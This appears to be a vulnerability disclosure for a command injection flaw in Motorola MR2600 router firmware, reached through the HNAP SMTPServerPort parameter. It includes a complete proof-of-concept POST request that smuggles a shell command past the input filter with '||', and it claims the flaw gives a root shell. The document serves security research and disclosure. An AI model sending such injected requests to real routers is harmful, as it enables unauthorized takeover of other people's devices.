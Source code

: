# Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522104341311](img/image-20220522104341311.png)

Program by getting SaveSysEmailParams/SMTPServerPort the value of the parameter, passed to v9

![image-20220522104359266](img/image-20220522104359266.png)

After check_command_inject_ch function, check the command injection, v9, we can use '| |' symbol to bypass

The program then uses the nvram_SAFE_set function to set SysLogMail_SMTPServerPort to v9

![image-20220522104423004](img/image-20220522104423004.png)

In the rc file, the program uses nvram_safe_GET to get the value of SysLogMail_SMTPServerPort and passes it to V12. Then it uses sprintf to format V12 into V33. Finally, it uses twSystem to execute v33. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SaveSysEmailParams xmlns="http://purenetworks.com/HNAP1/">
	<SMTPServerPort> % || ls > /tmp/456 || echo 1</SMTPServerPort>
</SaveSysEmailParams>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)